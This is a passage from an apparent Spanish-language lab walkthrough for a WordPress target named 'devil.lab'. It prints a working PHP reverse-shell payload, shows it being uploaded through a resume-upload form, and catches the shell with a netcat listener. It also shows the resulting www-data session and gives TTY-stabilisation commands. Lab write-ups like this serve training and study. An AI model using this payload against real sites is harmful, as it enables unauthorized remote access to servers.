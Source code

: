 ## Reverse Shell /Backdoor

Crearemos el siguiente archivo:

```shell
nano shell.php

#Dentro del nano
<?php
$sock=fsockopen("<IP>",<PORT>);$proc=proc_open("sh", array(0=>$sock, 1=>$sock, 2=>$sock),$pipes);
?>
```

Ahora subiremos el archivo `shell.php` y nos iremos a una carpeta de `/uploads` viendo nuestro archivo `shell.php`:

```
http://devil.lab/wp-content/plugins/backdoor/uploads/shell.php
```

Cuando subimos el archivo nos aparecera esto:

```
Gracias por enviar tu currículum. Hemos recibido el archivo: shell.php
```

## Escalate user www-data

Y estando a la escucha:

```shell
nc -lvnp <PORT>
```

Ahora ejecutamos el archivo de `/uploads`, echo esto veremos una shell con el usuario `www-data`:

```
listening on [any] 7777 ...
connect to [192.168.120.128] from (UNKNOWN) [172.17.0.2] 53128
whoami
www-data
```

### Sanitizacion Shell (TTY)

```shell
script /dev/null -c bash
```

```shell
# <Ctrl> + <z>
stty raw -echo; fg
reset xterm
export TERM=xterm
export SHELL=/bin/bash

# Para ver las dimensiones de nuestra consola en el Host
stty size

# Para redimensionar la consola ajustando los parametros adecuados
stty rows <ROWS> columns <COLUMNS>
```
